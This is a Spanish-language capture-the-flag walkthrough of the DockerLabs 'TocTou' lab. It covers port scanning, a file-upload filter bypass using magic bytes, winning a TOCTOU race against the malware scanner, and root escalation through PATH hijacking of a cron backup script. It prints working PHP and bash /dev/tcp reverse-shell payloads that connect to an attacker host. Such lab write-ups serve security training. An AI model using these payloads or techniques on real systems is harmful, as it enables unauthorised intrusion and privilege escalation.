







# TocTou DockerLabs (Intermediate)

# Contexto de la maquina
## Trayectoria TocTou

<figure><figcaption></figcaption></figure>

## Descripción

**TocTou** es una máquina Linux de dificultad **Intermediate** en DockerLabs que, como su propio nombre indica, gira en torno a una vulnerabilidad de tipo **TOCTOU** (Time-Of-Check-To-Time-Of-Use): una condición de carrera donde el tiempo que transcurre entre que el sistema valida un recurso y el momento en que lo usa (o lo elimina) puede ser aprovechado por un atacante.

La aplicación **Zumba Files** es un servicio de subida de archivos que escanea cada archivo subido en busca de contenido malicioso y lo elimina si lo detecta, pero el escaneo no es instantáneo: hay una ventana de tiempo en la que el archivo malicioso ya está físicamente en el servidor pero todavía no ha sido borrado. Accediendo al archivo exactamente en esa ventana se obtiene ejecución de código como `www-data`. La escalada a `root` se consigue abusando de un script de backup ejecutado por `cron` que antepone un directorio controlado por `www-data` al `$PATH` del sistema, permitiendo un clásico **PATH Hijacking** sustituyendo el binario `tar`.

**Objetivo**

- Identificar el formulario de subida de archivos y su validación de extensiones/contenido.
- Bypassear la validación con un payload PHP sin la palabra `PHP` en el contenido.
- Explotar la ventana TOCTOU para acceder al archivo antes de que sea eliminado.
- Abusar del `$PATH` modificado en el script de backup ejecutado por `cron` para escalar a `root`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Formulario de subida con validación de contenido (magic bytes + palabras clave).
    - Condición de carrera TOCTOU entre la subida y el escaneo/eliminación del archivo.
    - Script de backup (`backup.sh`) ejecutado por cron cada minuto como `root`.
    - PATH Hijacking mediante directorio `bin` propiedad de `www-data` antepuesto al `$PATH`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip toctou.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh toctou.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-31 08:15 +0000
Nmap scan report for 172.17.0.2
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.69 ((Debian))
|_http-title: Zumba Files \xE2\x80\x94 Env\xC3\xADa archivos en segundos
|_http-server-header: Apache/2.4.69 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

Solo hay un puerto abierto, el **80**, que aloja la aplicación **Zumba Files**. Accedemos para ver qué contiene:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos una página aparentemente normal con un formulario de subida de archivos. Esto es especialmente interesante, ya que podemos intentar un bypass de extensión de archivo u otro tipo de ataque relacionado con file upload.
## Análisis del código fuente del formulario

<figure><figcaption></figcaption></figure>

Revisamos primero qué valida el formulario a nivel de código del lado del cliente:

```html
<input type="file" id="fileInput" name="file" hidden="">
```

El tipo de input es genérico, sin ninguna restricción visible en el HTML, lo que indica que cualquier validación real ocurre en el servidor. Antes de probar a subir nada, realizamos fuzzing web para descubrir más rutas.
# Gobuster
## Fuzzing de directorios

```bash
gobuster dir -u http://<IP> -w <WORDLIST> -x html,txt,php -t 100
```

Respuesta:

```
index.html           (Status: 200) [Size: 3070]
uploads              (Status: 301) [Size: 350] [--> http://172.17.0.2/uploads/]
assets               (Status: 301) [Size: 349] [--> http://172.17.0.2/assets/]
upload.php           (Status: 400) [Size: 62]
archivos             (Status: 301) [Size: 351] [--> http://172.17.0.2/archivos/]
server-status        (Status: 403) [Size: 315]
```

Dos hallazgos clave: `upload.php` confirma que el backend es PHP, y `uploads/` es el directorio donde se guardan los archivos subidos. Con esto en mente, probamos subir una reverse shell PHP directamente.
# Bypass de validación de contenido
## Primer intento: subida directa

> shell.php

```php
<?php $s=fsockopen("<IP_ATTACKER>",<PORT_ATTACKER>);proc_open("/bin/sh",[$s,$s,$s],$p); ?>
```

El servidor rechaza el archivo:

```
Solo se permiten imágenes (PNG, JPG, GIF o BMP).
```

Interceptamos la petición de subida con BurpSuite para entender exactamente qué se está validando:

```http
POST /upload.php HTTP/1.1
Host: 172.17.0.2
Content-Type: multipart/form-data; boundary=----geckoformboundaryf4e73031e69760bf7964491cc8b4e41c

------geckoformboundaryf4e73031e69760bf7964491cc8b4e41c
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php
$s=fsockopen("<IP_ATTACKER>",<PORT_ATTACKER>);proc_open("/bin/sh",[$s,$s,$s],$p);
?>
------geckoformboundaryf4e73031e69760bf7964491cc8b4e41c--
```
## Intento de bypass con magic byte

Cambiar únicamente el `Content-Type` a `image/png` no funciona: el filtro sigue rechazando el archivo. El servidor comprueba el contenido real del archivo mediante su **magic byte** (los primeros bytes que identifican el tipo de archivo, independientemente de la extensión o el header declarado). Insertamos el magic byte de un PNG delante del payload usando la extensión de BurpSuite **Magic Byte Selector**, que añade automáticamente el byte correspondiente al tipo de imagen seleccionado:

<figure><figcaption></figcaption></figure>

Con el magic byte presente, el servidor acepta el archivo como imagen válida, pero al analizarlo en una segunda pasada lo detecta como malicioso por su contenido PHP.
## Bypass final: ofuscación de la palabra "PHP"

Tras probar múltiples combinaciones, descubrimos que el filtro de contenido busca literalmente la cadena `PHP` en el payload. Eliminando esa palabra del archivo (sin afectar a la sintaxis real del código, que PHP reconoce igualmente por las etiquetas `<?` y `?>`), el análisis de contenido no detecta nada sospechoso:

<figure><figcaption></figcaption></figure>

El archivo se sube correctamente. Verificamos que está en `uploads/`, el directorio descubierto con Gobuster:

<figure><figcaption></figcaption></figure>

Pero al acceder al archivo, no se ejecuta como PHP: el servidor lo sirve como texto plano. Algo en el servidor sigue impidiendo su ejecución.
# TOCTOU Race Condition

<figure><figcaption></figcaption></figure>

## Descubrimiento del comportamiento de borrado automático

Investigando más a fondo, identificamos algo muy relevante: el servidor sube el archivo de forma temporal a `uploads/` para analizarlo, y si detecta que es malicioso, lo elimina automáticamente. El nombre de la máquina (`TocTou`) es la pista directa de que el vector real es una **condición de carrera TOCTOU** (Time-Of-Check-To-Time-Of-Use): existe una ventana de tiempo entre que el archivo se sube (y por tanto es accesible) y el momento en que el sistema termina de validarlo y lo borra.

Subimos un archivo de prueba llamado `revshell.php`:

<figure><figcaption></figcaption></figure>

Mientras el servidor está realizando la validación, accedemos rápidamente a la web y recargamos la página:

<figure><figcaption></figcaption></figure>

El archivo existe y se sirve correctamente durante esa ventana. Si recargamos pasado un instante, el archivo ya no está: el servidor lo ha identificado como malicioso y lo ha eliminado. La clave es ganarle la carrera al validador: acceder al archivo subido antes de que el proceso de análisis complete el borrado.
## Explotación de la ventana de carrera

Nos ponemos a la escucha antes de intentar la subida, para no perder tiempo tras el éxito:

```bash
nc -lvnp <PORT>
```

Volvemos a subir el mismo archivo desde BurpSuite. En cuanto la petición de subida se completa, accedemos inmediatamente a la URL del archivo en `uploads/` repetidamente hasta ganarle la carrera al borrado. Si volvemos donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 40402
whoami
www-data
```

Hemos ganado la carrera: el servidor ejecutó el PHP antes de completar el borrado. Tenemos shell como `www-data`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración del directorio /opt

```bash
ls -la /opt/
```

Respuesta:

```
drwxr-xr-x 1 root root 4096 Oct 27 22:02 zumba
```

```bash
ls -la /opt/zumba/
```

Respuesta:

```
-rwxr-xr-x 1 root     root      755 Oct 27 22:00 backup.sh
drwxrwxr-x 1 www-data www-data 4096 Oct 27 22:02 bin
```

El directorio `bin` dentro de `zumba` pertenece a `www-data`, el mismo usuario con el que tenemos shell. Esto es extremadamente relevante: significa que podemos escribir dentro de él. Antes de actuar, leemos `backup.sh` para entender su función:

```bash
cat backup.sh
```

Respuesta:

```bash
#!/bin/bash
#
# Zumba Files — copia de seguridad periódica de la carpeta de subidas.
# Pensado para ejecutarse desde cron. Comprime /var/www/html/uploads en
# /var/backups para poder recuperar envíos recientes si algo va mal.
#
# NOTA del equipo: cargamos nuestro directorio de utilidades propio delante
# del PATH para poder usar versiones "tuneadas" de las herramientas de backup.
export PATH=/opt/zumba/bin:$PATH

STAMP=$(date +%Y%m%d-%H%M%S)
cd /var/www/html/uploads || exit 0

# Empaquetamos el contenido actual de la carpeta de subidas.
tar -czf "/var/backups/uploads-${STAMP}.tar.gz" . 2>/dev/null

# Rotación simple: conservamos solo las 5 copias más recientes.
ls -1t /var/backups/uploads-*.tar.gz 2>/dev/null | tail -n +6 | xargs -r rm -f
```
## Identificación del PATH Hijacking

La línea crítica es esta:

```bash
export PATH=/opt/zumba/bin:$PATH
```

Esta instrucción antepone `/opt/zumba/bin` al `$PATH` del sistema, lo que significa que cuando el script ejecute cualquier comando (como `tar`, que se usa más adelante), bash buscará primero en ese directorio antes de buscar en las rutas estándar del sistema (`/usr/bin`, `/bin`, etc.). Como ese directorio es propiedad de `www-data` y el script se ejecuta como `root` (confirmaremos esto en el siguiente paso), podemos colocar un binario falso llamado `tar` que contenga una reverse shell: cuando `root` lo ejecute pensando que es el `tar` real del sistema, obtendremos una shell con sus privilegios.
## Confirmación de la ejecución por cron como root

```bash
cat /etc/cron.d/zumba-backup
```

Respuesta:

```
# Copia de seguridad de las subidas de Zumba Files (cada minuto)
* * * * * root /opt/zumba/backup.sh >/dev/null 2>&1
```

Confirmado: `backup.sh` se ejecuta como `root` cada minuto.
## Creación del binario tar malicioso

Creamos un script llamado `tar` en el directorio controlado por `www-data`, que al ejecutarse lanza una reverse shell en lugar de comprimir archivos:

> /opt/zumba/bin/tar

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT_ATTACKER> 0>&1
```

Lo creamos directamente con `echo` ya que no hay `nano` disponible en la shell, y le damos permisos de ejecución:

```bash
echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT_ATTACKER> 0>&1' > /opt/zumba/bin/tar
chmod +x /opt/zumba/bin/tar
```
## Escalada a root

Nos ponemos a la escucha en otra terminal de nuestro host:

```bash
nc -lvnp <PORT>
```

Esperamos a que `cron` dispare el script (cada minuto, según confirmamos en `/etc/cron.d/zumba-backup`). Cuando `backup.sh` ejecute `tar`, bash encontrará primero nuestro script malicioso en `/opt/zumba/bin/` (por delante del `$PATH` real) y lo ejecutará como `root`. Si volvemos donde tenemos la escucha:

```
listening on [any] 7755 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 58308
bash: cannot set terminal process group (1456): Inappropriate ioctl for device
bash: no job control in this shell
root@88dfda698ee6:/var/www/html/uploads# whoami
whoami
root
```

Ya somos `root`. La máquina está completamente comprometida.

